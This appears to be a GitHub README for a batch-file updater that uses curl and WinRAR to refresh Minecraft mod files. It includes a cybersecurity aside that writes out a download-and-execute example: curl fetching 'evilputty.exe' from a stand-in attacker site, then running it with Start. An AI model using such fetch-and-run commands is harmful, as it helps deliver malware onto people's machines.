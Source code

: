 # MSDOSUpdater
Using Curl we can use MSDOS to update missing or outdated files, relating to cyber security it can be use as malicious code as well.

Updater.bat is the main file we use to update the files in this use we are using it for a Minecraft mod file update. modfolder.txt is the path where we want to upload/update our files.
Winrarpath.txt is where we configure our WinRar directory path so that our Updater.bat can use the unrar function to unpack the newer files into our mod folder path.

with the help of curl we can output a file from the url link:
curl.exe --output index.html --url google.com

this line will get the html code of google.com and download it.

In a cyber security stand point this code can also be abused and used in a malicious way, the attacker can code it so that it downloads viruses, worms, trojans, RATs and more. once downloaded they can execute
these files using the command Start example: 

curl.exe --output evilputty.exe --url www.attackersite.com/evilputty.exe
Start evilputty.exe

this knowledge is for educational purposes only please do not use this code for harm.
